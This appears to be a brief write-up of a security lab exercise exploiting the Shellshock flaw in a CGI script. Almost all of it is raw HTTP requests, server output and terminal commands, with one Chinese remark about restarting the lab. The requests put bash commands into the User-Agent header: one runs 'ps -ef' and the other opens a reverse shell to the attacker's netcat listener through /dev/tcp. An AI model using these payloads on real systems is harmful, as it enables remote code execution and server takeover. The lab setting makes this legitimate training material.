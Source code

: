 ```
GET /gettime.cgi HTTP/1.1
Host: 192.151.67.3
User-Agent: () { :; }; echo; echo; /bin/bash -c 'ps -ef'
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.151.67.3/
Connection: close
```

```
HTTP/1.1 200 OK
Date: Mon, 17 Oct 2022 09:43:17 GMT
Server: Apache/2.4.6 (Unix)
Connection: close
Content-Length: 555


UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 09:27 ?        00:00:00 /usr/bin/python /usr/bin/supervisord -n
root          10       1  0 09:27 ?        00:00:00 /bin/bash /root/startup.sh
daemon        11      10  0 09:27 ?        00:00:00 /opt/apache/bin/httpd -X
daemon        12      11  0 09:27 ?        00:00:00 /opt/apache/bin/httpd -X
daemon      1034      12  0 09:43 ?        00:00:00 /usr/local/bash-4.3.0/bin/bash /opt/apache/htdocs/gettime.cgi
daemon      1035    1034  0 09:43 ?        00:00:00 ps -ef
```

```
root@attackdefense:~# nc -nlvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234

```

断网了，所以重开了实验室。

```
root@attackdefense:~# ifconfig
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.181.17.2  netmask 255.255.255.0  broadcast 192.181.17.255
        ether 02:42:c0:b5:11:02  txqueuelen 0  (Ethernet)
```

```
GET /gettime.cgi HTTP/1.1
Host: 192.181.17.3
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/192.181.17.2/1234 0>&1'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

